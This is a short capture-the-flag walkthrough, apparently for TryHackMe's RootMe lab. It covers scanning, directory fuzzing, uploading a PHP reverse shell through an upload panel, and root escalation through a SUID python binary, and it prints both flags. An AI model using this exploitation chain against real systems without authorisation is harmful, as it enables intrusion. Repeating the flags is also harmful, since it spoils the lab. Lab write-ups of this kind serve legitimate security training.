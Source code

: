 # THM - RootMe
## Scanning
```bash
→ sudo ping -c 4 10.10.247.80

→ nmap -Pn -sC -sV -oN nmap.txt 10.10.247.80
```


## Enumeration
```bash
→ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.247.80/FUZZ -c
# /panel/
```
1. In `panel` directory upload `revshell.php5`.
2. Use netcat command.
3. Execute file in `uploads` directory.


## Find user flag
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name user.txt

cat /var/www/user.txt
# THM{y0u_g0t_a_sh3ll}
```


## privilege escalation
```bash
find / -type f -user root -perm -4000 2>/dev/null
# /usr/bin/python 

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
# Become to root user.
# https://gtfobins.github.io/

cat root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```